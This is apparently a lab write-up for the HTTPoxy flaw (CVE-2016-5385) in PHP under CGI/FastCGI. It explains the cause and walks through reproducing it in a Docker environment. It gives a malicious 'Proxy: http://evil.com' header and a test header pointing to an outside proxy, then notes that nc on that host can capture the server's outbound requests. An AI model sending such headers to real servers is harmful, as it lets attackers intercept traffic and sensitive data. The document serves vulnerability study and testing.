

# HTTPoxy vulnerability (CVE-2016-5385)

## Principle

Reference: http://www.laruence.com/2016/07/19/3101.html

To put it simply, according to RFC 3875, cgi (fastcgi) puts all HTTP headers passed by the user with the `HTTP_` prefix into the environment variable, and most of the library conventions will extract `HTTP_PROXY from the environment variable. `Value as an HTTP proxy address. Therefore, the malicious user sets the proxy of the website using the defect class library to `http://evil.com` by submitting an HTTP header such as `Proxy: http://evil.com`, thereby stealing the data packet may exist. Sensitive information.

The vulnerability was fixed in PHP version 5.6.24 and will no longer put `Proxy` into environment variables. This environment uses PHP 5.6.23 as an example.

Of course, this vulnerability not only affects PHP, but all programs running with CGI or Fastcgi are theoretically affected.

## Testing process

Compile and run this environment:

```
Docker-compose build
Docker-compose up -d
```

Normal request `http://your-ip/index.php`, it can be seen that its Origin is the currently requested server, the two IPs are equal:


Find a http proxy that works fine in other places, such as `http://x.x.122.65:8888/`.

With the `Proxy: http://x.x.122.65:8888/` header, visit `http://your-ip/index.php` again:



As shown above, it can be seen that the Origin has become `x.x.122.65`, which means that the server that actually makes HTTP access is `x.x.122.65`, which means that `x.x.122.65` has already proxyed the normal HTTP request.

Using NC on `x.x.122.65`, you can capture the currently requested packet, which may contain sensitive data:

